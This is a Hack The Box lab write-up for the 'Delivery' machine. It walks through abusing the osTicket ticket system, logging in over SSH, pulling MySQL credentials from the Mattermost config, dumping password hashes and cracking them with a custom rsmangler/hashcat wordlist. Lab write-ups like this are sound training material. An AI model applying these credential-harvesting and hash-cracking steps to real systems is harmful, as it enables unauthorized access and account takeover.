 ```yaml
---
layout: single
title: Delivery - Hack The Box
excerpt: "Delivery is an easy difficulty Linux machine that features the support ticketing system osTicket where it is possible by using a technique called TicketTrick, a non-authenticated user to be granted with access to a temporary company email. This &amp;quot;feature&amp;quot; permits the registration at MatterMost and the join of internal team channel. It is revealed through that channel that users have been using same password variant &amp;quot;PleaseSubscribe!&amp;quot; for internal access. In channel it is also disclosed the credentials for the mail user which can give the initial foothold to the system. While enumerating the file system we come across the mattermost configuration file which reveals MySQL database credentials. By having access to the database a password hash can be extracted from Users table and crack it using the &amp;quot;PleaseSubscribe!&amp;quot; pattern. After cracking the hash it is possible to login as user root."
date: 2025-05-12
classes: wide
header:
  teaser: /img2/delivery.PNG
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - Virtual Hosting Enumeration
  - Abusing Support Ticket System
  - Access to MatterMost
  - Information Leakage
  - Database Enumeration - MYSQL
  - Dictionary Generating
  - Cracking Hashes
---
```



## Reconnaissance

- Nmap

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.10.222
```

![](/img2/Pasted%20image%2020250512133200.png)
## Exploitation

- Abusing Support Ticket System

![](/img2/Pasted%20image%2020250512134121.png)

![[Pasted image 20250512134153.png]]

![](/img2/Pasted%20image%2020250512134209.png)

![](/img2/Pasted%20image%2020250512134251.png)

![](/img2/Pasted%20image%2020250512134303.png)

- Conect ssh

```bash
ssh maildeliverer@10.10.10.222
```

## Post-exploitation

- Check all listening ports

```bash
ss -nltp
```

![](/img2/Pasted%20image%2020250512145016.png)

- Leaked config data

```bash
cat /opt/mattermost/config/config.json | grep 3306
```

![](/img2/Pasted%20image%2020250512145219.png)

- Conect to MariaDB

```bash
mysql -u mmuser -p
```

```sql
select username,password from Users;
```

![](/img2/Pasted%20image%2020250512145939.png)

- Generate custom dictionary with PleaseSubscribe\! variants

![](/img2/Pasted%20image%2020250512152339.png)

```bash
echo "PleaseSubscribe\!"> data.txt
```

```bash
rsmangler -f data.txt -o custom_dict.txt
```

```bash
hashcat -m 3200 hash.txt custom_dict.txt
```

![](/img2/Pasted%20image%2020250512152439.png)

![](/img2/Pasted%20image%2020250512152538.png)